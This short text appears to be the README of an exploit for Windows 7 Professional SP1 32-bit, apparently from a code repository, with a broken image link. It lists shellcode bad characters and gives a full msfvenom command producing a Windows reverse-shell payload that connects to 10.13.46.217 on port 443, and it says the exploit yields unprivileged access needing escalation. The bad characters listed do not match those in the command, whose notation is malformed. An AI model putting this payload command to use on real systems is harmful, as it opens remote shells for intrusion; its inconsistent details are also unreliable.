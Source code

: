 

Created for Windows 7 Professional SP1 32bits

Badchars: \x00\xa9\xcd\xd4

Msfvenom: msfvenom -p windows/shell_reverse_tcp lhost=10.13.46.217 lport=443 exitfunc=thread -b "\0x00\0x0a\0x0d" -v esp -f python

This exploit will gave you a normal privs. You'll need to escalate.
